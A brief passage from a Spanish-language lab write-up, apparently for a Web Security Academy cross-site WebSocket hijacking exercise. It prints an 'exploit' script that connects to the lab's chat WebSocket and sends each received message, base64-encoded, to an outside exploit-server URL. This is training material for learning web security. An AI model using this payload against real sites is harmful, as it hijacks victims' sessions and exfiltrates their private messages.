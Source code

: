 ![](/assets/img/CSRF-Lab-9/image_24.png)

También podemos usar este `exploit`

```
<script>
    var webSocket = new WebSocket('wss://0a02002b038d819781de438e00860086.web-security-academy.net/chat');

    webSocket.onopen = function() {
        webSocket.send("READY");
    };

    webSocket.onmessage = function(event) {
        var message = event.data;
        fetch('https://exploit-0a6300d403ca81a881bc4223010500de.exploit-server.net/exploit?log=' + btoa(message), {method: 'GET'});
    };
</script>
```

